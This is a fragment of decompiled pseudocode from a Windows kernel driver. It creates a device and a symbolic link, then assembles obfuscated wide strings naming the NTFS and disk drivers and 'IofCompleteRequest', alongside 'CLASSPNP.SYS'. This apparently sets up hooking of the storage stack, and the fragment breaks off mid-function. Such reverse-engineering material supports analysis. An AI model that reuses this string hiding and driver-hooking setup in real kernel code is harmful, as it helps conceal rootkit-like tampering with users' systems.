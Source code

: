```assembly
             0,
             (__int64)L"68",
             0i64,
             (__int64)&qword_14004D0E0);
  dword_14004D390 = result;
  if ( (int)result >= 0 )
  {
    dword_14004D390 = IoCreateSymbolicLink(&SymbolicLinkName, &DestinationString);
    if ( dword_14004D390 >= 0 )
    {
      qword_14004D9B8 = (__int64)qword_14004D0E0;
      v4 = 0i64;
      v19[0] = 4587612;
      v19[1] = 7077993;
      v19[2] = 7536741;
      v19[3] = 7536761;
      v19[4] = 6619252;
      v19[5] = 6029421;
      v19[6] = 7602254;
      v19[7] = 7536742;
      v20 = 0;
      v17[0] = 4456540;
      v17[1] = 6881394;
      v17[2] = 6619254;
      v17[3] = 6029426;
      v17[4] = 6881348;
      v17[5] = 7012467;
      v18 = 0;
      v21[0] = 7274569;
      v21[1] = 4391014;
      v21[2] = 7143535;
      v21[3] = 7078000;
      v21[4] = 7602277;
      v21[5] = 5374053;
      v21[6] = 7405669;
      v21[7] = 6619253;
      v21[8] = 7602291;
      v22 = 0;
      strcpy(v16, "CLASSPNP.SYS");
      do
      {
        v5 = *(_WORD *)((char *)v19 + v4);
        *(WCHAR *)((char *)&word_14004D060 + v4) = v5;
        v4 += 2i64;
      }
      while ( v5 );
      v6 = 0i64;
      do
      {
        v7 = *(_WORD *)((char *)v17 + v6);
        *(WCHAR *)((char *)&word_14004D140 + v6) = v7;
        v6 += 2i64;
      }
      while ( v7 );
      v8 = 0i64;
      do
      {
        v9 = *(_WORD *)((char *)v21 + v8);
        *(WCHAR *)((char *)&word_14004D3C0 + v8) = v9;
        v8 += 2i64;
      }
      while ( v9 );
      v10 = 0i64;
```